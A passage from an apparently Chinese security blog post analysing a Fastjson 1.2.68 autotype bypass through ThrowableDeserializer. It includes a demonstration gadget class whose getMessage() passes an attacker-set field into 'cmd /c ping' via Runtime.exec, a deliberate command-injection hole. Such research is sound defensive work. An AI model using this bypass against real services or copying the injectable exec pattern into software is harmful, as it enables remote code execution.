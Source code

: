 
ThrowableDeserializer是Throwable用来反序列化异常类的，当没有命中之前程序给定的类型时会进入createJavaBeanDeserializer()，其实就是JavaBeanDeserializer。



先看ThrowableDeserializer中

[![image.png](.resource/Fastjson%201.2.68%20bypass%20autotype/media/20200616111164.png)](https://y4er.com/img/uploads/20200616111164.png)



根据第二个`@type`获取类，并且传入指定期望类进行加载。因此可以反序列化继承Throwable的异常类，借助setter、getter等方法的自动调用，来挖掘gadget。浅蓝师傅给了一个gadget

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecException extends Exception {

    private String domain;

    public ExecException() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            return e.getMessage();
        }

        return super.getMessage();
    }
}
```
